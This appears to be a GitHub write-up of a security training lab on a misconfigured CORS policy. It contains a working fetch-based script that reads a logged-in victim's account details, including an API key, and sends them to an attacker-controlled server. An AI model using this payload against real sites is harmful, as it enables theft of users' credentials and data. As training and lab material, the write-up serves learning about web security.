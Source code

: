 # CORS Exploitation with Fetch

## Lab Context
This lab demonstrated a **misconfigured CORS policy**, where the application trusted all origins (`Access-Control-Allow-Origin: *`).  
Because of this, I was able to craft a malicious payload that used the victim’s browser session to fetch sensitive data from the API.

<img width="1920" height="1080" alt="Screenshot From 2025-09-09 13-19-13" src="https://github.com/user-attachments/assets/a4e72421-ebfe-44cd-9166-ce36b338d977" />
---

## Vulnerability Summary
- **Type**: Security Misconfiguration → Insecure CORS  
- **Impact**: Allowed an attacker to steal sensitive information (API key) from authenticated users.  
- **Root Cause**: The server blindly trusted all origins and allowed cross-origin requests with user credentials.

---

## Exploit Payload
I used the `fetch` API to request sensitive data from the victim’s 
endpoint and exfiltrate it to my controlled server.

```html
<script>
fetch("https://victim-site.web-security-academy.net/accountDetails", {
  credentials: "include"
})
  .then(r => r.text())
  .then(data => fetch("https://my-exploit-server.net/log?key=" + encodeURIComponent(data)));
</script>

```
## References

[Medium Blog Post: How I Build Universal CORS Exploitation Payloads (with Fetch)](https://medium.com/@cybernerddd/b04d1c6705df)

[OWASP: Cross-Origin Resource Sharing (CORS)](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/07-Testing_Cross_Origin_Resource_Sharing)
